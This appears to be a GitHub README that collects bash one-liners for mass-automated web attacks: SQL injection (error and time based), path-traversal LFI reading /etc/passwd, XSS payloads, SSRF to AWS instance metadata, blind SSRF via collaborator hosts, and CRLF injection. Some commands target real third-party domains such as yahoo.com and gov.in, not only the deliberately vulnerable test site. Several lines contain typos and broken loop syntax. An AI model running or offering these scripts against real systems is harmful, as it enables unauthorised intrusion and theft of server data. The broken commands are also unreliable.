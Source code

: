# WEBAPPLICATION-ATTACKS-SCRIPT
AUTOMATE WEB APPLICATION ATTACKS WITH SCRIPTS

**Error based sqli**

Target: http://TARGET.com/artists.php?artist=1

**Command:**
curl -sk "http://testphp.vulnweb.com/artists.php?artist=1" | grep -q "WHAT KIND for error for sql injection"

**Automation:**
gau -subs testphp.vulnweb.com | gf sqli | httpx | qsreplace "1'" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo " $(tput setaf 1)SQLI VULNERABLE $(tput setaf 3) %"'
gau -subs testphp.vulnweb.com | grep "=" | httpx -silent | qsreplace "1'" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo " $(tput setaf 1)SQLI VULNERABLE $(tput setaf 3) {}"' 

**FULL automation:**
for sqli $(cat sqliyaload.txt) ;do for url in $(gau -subs targets.txt | grep "=" | gf sqli | httpx | qsrepalce "$sqli") ;do echo "$url" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo "Error based SQLI {}"' ;done 


**Time based:**
payload used: ' or sleep(5)#

Normal testing:
time curl -s -I "http://testphp.vulnweb.com/artists.php?artist=1"
time curl -s -I "http://testphp.vulnweb.com/artists.php?artist=1 or sleep(10)#" 
 
 
**Automation:**
for sqli in $(cat sqlitime.txt) ;do for url in $(gau -subs yahoo.com) ;do  echo "$url" | qsreplace "$sqli"| parallel -j 10 'time curl -s -I "%"' ;print "timebase sqli without payload" ;echo "$url" | parallel -j 10 'time curl -s -I "%"' ;done ;done


**LFI:**

cat /payloads/pathtravers.txt | parallel -j 6 'curl -sk "http://testphp.vulnweb.com/showimage.php?file={}" 2>&1 | grep -q "root:x" && echo "VULN! LFI {}"'

for lfi in $(cat /payloads/pathtravers.txt ); do for  url  in $(gau -subs yahoo.com | gf lfi | qsreplace "$lfi"); do echo "urls" | parallel  -j 10 'curl -s "{}" 2>&1 | grep -q "root:x" && echo "LFI VULN! {}"' ; done ; done


**XSS:**

grep "?" | sort -u |  grep "=" | qsreplace "<img src=x onerror=alert(1)>" | xargs -I % sh -c 'curl -sk "%"   2>&1 | grep -q "alert(1)" --color && echo " $(tput setaf 1)XSS VULNERABLE $(tput setaf 3) %"'  --> automation

cat testparam.txt | parallel -j 5  echo "https://xss-game.appspot.com/level1/frame?{}" | qsreplace "<img src=x onerror=alert(1)>" | xargs -I % sh -c 'curl -sk "%"   2>&1 | grep -q "alert(1)" --color && echo " $(tput setaf 2)XSS VUL $(tput setaf 1 setab 7) %"'

for xss in $(cat /payloads/xss.txt ); do for  url  in $(gau -subs yahoo.com | gf lfi | qsreplace "$xss"); do echo "urls" | parallel  -j 10 'curl -s "{}" 2>&1 | grep -q "aler(1)" && echo "LFI VULN! {}"' ; done ; done

**SSRF:**
gau -subs testphp.vulnweb.com | grep "=" | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I% sh -c 'curl -sk "%" 2>&1 | grep "compute.internal" && echo " ssrf aws metadata %"'

**BLIND ssrf:**

gau -subs testphp.vulnweb.com | gf ssrf | qsreplace "http://burpcollaborator.net" | httpx -silent -proxy http://127.0.0.1:8080
subfinder -d yahoo.com -silent | httpx -silent -proxy http://127.0.0.1:8080 -H "Referer: http://burpcollaborator.net"


Command:

curl -sk "http://testphp.vulnweb.com/showimage.php?file=http://burpcollab.net" |httpx

**Automation:**
gau -subs testphp.vulnweb.com | grep "=" | httpx -silent | qsreplace "http://burpcollab.net" | xargs -I{} sh -c 'curl -sk "{}"

**FULL automation:**
for burpcoll $(cat burppayaload.txt) ;do for url in $(gau -subs targets.txt | grep "=" | gf ssrf | httpx | qsrepalce "$burpcoll") ;do echo "$url" | httpx -silent  ;done 

gau -subs gov.in | grep "=" | gf ssrf | httpx -silent | qsreplace "http://burpcollab.net" | parallel -j 30 curl -sk "{}"

**Blind SSRF by header:**
Target:
testphp.vulnweb.com

Command:
**FUll Automation:**
subfinder -d testphp.vulnweb.com -silent | httpx -H "Referer: http://burpcollab.net" 

**SSRF to access metadata**
Automation;
gau -subs testphp.vulnweb.com | grep "=" | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I% sh -c 'curl -sk "%" 2>&1 | grep "compute.internal" && echo " ssrf aws metadata %"'

**CRLF**
for crlf in $(cat crlfpayload.txt); do for url in $(gautest.com | grep "=" | qsreplace "$crlf"); do echo $url| xargs -I@ sh -c 'curl -sk -I "@" 2>&1 | grep -q "Set-Cookie:%20test=test" && echo "CRLF VUL @"' ;done ;done
